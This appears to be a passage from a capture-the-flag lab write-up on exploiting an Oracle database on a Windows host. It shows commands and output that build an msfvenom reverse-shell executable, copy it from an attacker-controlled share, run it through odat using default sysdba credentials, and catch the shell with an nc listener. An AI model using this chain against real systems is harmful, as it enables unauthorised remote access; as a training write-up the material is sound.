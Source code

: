 ![image-20240221195344421](./Silo.assets/image-20240221195344421.png)

Hint: Uploading file using oracle sysdba has some restrictions: no '\n' and no more than xxx bytes.

**Exploit**: Generate stageless executable file of reverse shell, copy (download) the generated file into Windows dir, and execute it using odat & receive shell using nc:

```console
└─╼$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.24 LPORT=6666 -f exe -o admin.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: admin.exe

--------------------------------------------------------------------------------

c:\qwe>copy \\10.10.16.24\qwe\admin.exe qwe.exe
        1 file(s) copied.

--------------------------------------------------------------------------------

└─╼$ python odat.py externaltable -s 10.129.133.187 -d XE -U scott -P tiger --sysdba --exec 'c:\\qwe' qwe.exe

[1] (10.129.133.187:1521): Execute the qwe.exe command stored in the c:\\qwe path

--------------------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.133.187] 49193
Microsoft Windows [Version 6.3.9600]
```